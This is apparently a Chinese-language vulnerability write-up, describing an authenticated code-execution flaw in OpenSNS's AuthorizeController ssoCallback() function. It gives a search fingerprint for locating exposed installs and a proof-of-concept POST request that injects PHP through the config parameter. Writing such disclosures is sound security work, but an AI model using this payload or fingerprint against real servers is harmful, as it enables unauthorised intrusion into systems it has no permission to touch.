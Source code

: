 # 

# OpenSNS AuthorizeController.class.php 后台远程命令执行漏洞

## 漏洞描述

OpenSNS AuthorizeController.class.php文件 ssoCallback() 函数存在命令执行漏洞，在登录的情况下可以获取服务器权限

## 漏洞影响

```
OpenSNS
```

## 网络测绘

```
icon_hash="1167011145"
```

## 漏洞复现

登录页面如下

![image-20220518154117028](./images/202205181541097.png)

存在漏洞的文件为 `Application/Admin/Controller/AuthorizeController.class.php`

![image-20220518154127216](./images/202205181541309.png)

其中 config参数可控，构造请求就可以通过 file_put_contents 写入执行任意命令

![image-20220518154143157](./images/202205181541252.png)

构造请求包

```
POST /admin.php?s=/Authorize/ssoCallback\

config[SSO_CONFIG]=phpinfo();
```

![image-20220518154206103](./images/202205181542195.png)
